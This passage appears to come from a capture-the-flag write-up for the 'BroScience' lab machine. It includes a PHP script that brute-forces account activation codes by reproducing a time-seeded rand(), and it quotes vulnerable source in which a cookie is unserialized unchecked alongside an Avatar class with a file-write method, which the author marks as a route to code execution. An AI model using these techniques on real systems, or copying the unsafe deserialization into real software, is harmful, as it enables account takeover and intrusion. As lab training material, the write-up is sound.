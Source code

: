 So I wrote a naive php code to do some hardwork:
```php
<?php

exec("curl -k https://broscience.htb/register.php -d 'username=Zoro&email=Rzoro@strawhat.pirates&password=passwd&password-confirm=passwd'");

$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
$seed = time();
$url2 = 'https://broscience.htb/activate.php?code=';
for ($num = -10;$num < 10;$num++)
{ 
	srand($seed + $num);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    exec('curl -k https://broscience.htb/activate.php?code='.$activation_code,$o);
}
?>
```

It will simply send a POST request to register a user and then with an error of 10 secs in time, will generate the seed value and send the generated code to activate our account.

---

## Foothold

There is code in **utils.php** which is getting the current theme information from cookies:

```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}
```

This piece of code is directly `unserializing` the base64 decode object, which can be used to gain RCE.

Looking further down in the code,

```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}
```